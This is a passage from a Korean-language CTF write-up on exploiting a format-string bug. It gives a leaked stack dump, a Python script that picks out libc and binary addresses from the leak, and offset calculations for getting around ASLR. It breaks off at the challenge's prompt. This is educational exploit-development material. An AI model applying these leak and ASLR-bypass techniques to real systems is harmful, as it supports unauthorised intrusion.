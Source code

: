 arr = [0x1,0x1,0x7ffff7ea8a37,0x3f,0x7ffff7fad280,0x3100000000,0x1,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x7025,0x1,0x1,0x2fba4605d1957a00,0x1,0x7ffff7dbdd90,0x1,0x5555555553c0,0x100000000,0x7fffffffe318,0x1,0x250dd4cc862f2f0c,0x7fffffffe318,0x5555555553c0,0x555555557b80,0x7ffff7ffd040,0xdaf22b33420d2f0c,0xdaf23b7b3ca52f0c,0x1,0x1,0x1,0x1,0x1,0x2fba4605d1957a00,0x1,0x7ffff7dbde40,0x7fffffffe328,0x555555557b80,0x7ffff7ffe2e0,0x1,0x1,0x555555555160,0x7fffffffe310,0x1,0x1,0x555555555185,0x7fffffffe308,0x1c,0x1,0x7fffffffe557,0x1,0x7fffffffe58b,0x7fffffffe59b,0x7fffffffe5b8,0x7fffffffe5e8,0x7fffffffe5f8,0x7fffffffe624,0x7fffffffe633,0x7fffffffe642,0x7fffffffe64b,0x7fffffffe65d,0x7fffffffe66a,0x7fffffffe68c,0x7fffffffec7b]

bin_start = 0x555555554000
bin_end = 0x55555555a000

libc_start = 0x7ffff7d94000
libc_end = 0x7ffff7faf000


for i in range(0,len(arr)):
    if hex(bin_start) <= hex(arr[i]) <= hex(bin_end):
        print(f'found [bin]! {i+1} : {hex(arr[i])}')
    if hex(libc_start) <= hex(arr[i]) <= hex(libc_end):
        print(f'found [lib]! {i+1} : {hex(arr[i])}')
```

 - 실행 결과는 다음과 같습니다.
```
found [lib]! 3 : 0x7ffff7ea8a37
found [lib]! 5 : 0x7ffff7fad280
found [lib]! 49 : 0x7ffff7dbdd90
found [bin]! 51 : 0x5555555553c0
found [bin]! 57 : 0x5555555553c0
found [bin]! 58 : 0x555555557b80
found [lib]! 69 : 0x7ffff7dbde40
found [bin]! 71 : 0x555555557b80
found [bin]! 75 : 0x555555555160
found [bin]! 79 : 0x555555555185
```
 - 가장 인근 오프셋에 있는 값의 offset을 구했을때 결과는 다음과 같습니다.
```
>>> print(0x7ffff7ea8a37 - 0x7ffff7d94000)
1133111
>>> print(0x5555555553c0 - 0x555555554000)
5056
```
 - aslr disable 상태일때 libc에서 offset 3 address 까지의 offset은 ```1133111``` binary에서 offset 51 address 까지의 offset은 ```5056``` 인것입니다.

 - 하지만 확실하지는 않습니다 이유는 누차 설명했던 aslr 때문입니다. 그래서 다시 debug를 통하여 aslr enable 상태일때 offset을 확인해봐야합니다.

 - aslr on > vmmap

![Alt text](image.png)

 - base주소가 변한것을 알수있습니다.
 - (이미지가 삭제되어 대충 다른이미지로 대체했습니다.)
```
binary start : 0x000055c783584000
libc start   : 0x00007f120d004000
```
 - continue
```
It's your chance to scare those little kids, say something scary!